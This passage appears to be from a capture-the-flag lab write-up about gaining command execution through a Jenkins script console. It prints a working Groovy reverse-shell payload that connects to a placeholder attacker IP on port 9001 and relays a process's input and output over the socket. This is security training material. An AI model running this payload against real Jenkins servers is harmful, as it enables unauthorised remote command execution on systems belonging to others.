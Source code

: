 ![image](images/internal-38.png)

### 3.5 Attack Vector (Script Console):<a name="35-attack-vector-script-console"></a>

Knowing we were able to have Jenkins execute a command to the underlying system in our previous box "Alfred," I want straight to verifying if these methods were still valid with this newer Jenkins version (Ver 2.250).

There is a script console that we can asses, and upon opening it we are greeted with a mention of the **Groovy script** being used. Simply searched "reverse shell groovy script" and first hit was a go: https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76. Having it send a quick `whoami` command we can get some data across to or own machine.

```
String host="Attacker IP";
int port=9001;
String cmd="whoami";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
